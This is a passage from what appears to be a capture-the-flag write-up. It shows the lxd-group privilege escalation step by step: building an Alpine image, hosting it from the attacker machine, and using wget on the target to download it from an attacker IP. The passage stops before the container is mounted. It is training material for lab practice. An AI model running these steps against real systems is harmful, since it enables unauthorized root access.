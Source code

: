 ## Shell as John

Once inside we can take a look at the `user.txt` flag.

```bash
john@exploitable:~$ cat user.txt 
a5c2******2e3d4f******f1a5a6e7e
```

The detection of the PrivEsc path was fast, i started checking what groups does `john` is part of and i found that he is inside of the `lxd` group.

```bash
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

In case you are not familiar with `lxd`:

- **LXD** is a system container manager that allows users to create and manage Linux containers. Containers are lightweight, isolated environments that can run processes or services.

The problem comes when a user is part of the **`lxd` group**, they can control LXD and indirectly gain root access to the whole system. This is because:

- **`lxd` group members can create privileged containers**.
-  Privileged containers can access the host's files and system resources.

Let's start by generating a small **Linux Alpine** image.

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This will generate a `.tar.gz` file, that we have to transfer to the target machine.

We have to host the image in our attacker machine, we can do that with `python3`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then let's download the image in the target machine under `/tmp`.

```bash
john@exploitable:/tmp$ wget http://10.11.116.52/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2025-01-12 16:02:06--  http://10.11.116.52/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.11.116.52:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64-20210218_0139.tar.gz       100%[==================================================================================================>]   3.11M   431KB/s    in 7.5s    

2025-01-12 16:02:14 (427 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]
```
